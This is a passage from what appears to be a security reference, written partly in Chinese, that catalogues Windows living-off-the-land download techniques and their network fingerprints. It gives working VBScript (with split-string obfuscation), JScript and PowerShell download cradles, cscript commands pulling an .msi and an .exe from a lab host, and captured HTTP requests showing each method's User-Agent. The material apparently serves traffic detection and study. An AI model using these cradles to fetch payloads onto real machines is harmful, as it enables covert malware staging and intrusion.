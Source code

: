 ```vba
set a=createobject("adod"+"b.stream"):set w=createobject("micro"+"soft.xmlhttp"):w.open"get",wsh.arguments( 0),0:w.send:
a.type=1:a.open:a.write w.responsebody:a.savetofile wsh.arguments(1),2
```

```powershell
cscript downfile.vbs http://192.168.220.125/white_process/test test.txt
```

[***pcap***](/assets/pcap/cscript.pcap)

```http
GET /white_process/test HTTP/1.1
Accept: */*
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Win64; x64; Trident/7.0; .NET CLR 2.0.50727; SLCC2; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0E; .NET4.0C)
Host: 192.168.220.125
Connection: Keep-Alive
```

### 11. JS

```js
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
WScript.Echo(WinHttpReq.ResponseText);
```

```powershell
cscript /nologo downfile.js http://192.168.220.125/white_process/test.msi
```

[***pcap***](/assets/pcap/js.pcap)

```http
GET /white_process/test.msi HTTP/1.1
Connection: Keep-Alive
Accept: */*
User-Agent: Mozilla/4.0 (compatible; Win32; WinHttp.WinHttpRequest.5)
Host: 192.168.220.125
```

### 12. Powershell-wget/curl

较新版本powershell中, 添加了 curl/wget 的实现, 但是两者所用ua仍为 powershell

```powershell
powershell /c wget http://xxxxxx.xxxx.xx
powershell /c curl http://xxxxxx.xxxx.xx
```

[***pcap***](/assets/pcap/powershell_wget.pcap)

```http
GET /white_process/call_calc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; zh-CN) WindowsPowerShell/5.1.17763.316
Host: 192.168.220.125
Connection: Keep-Alive
```
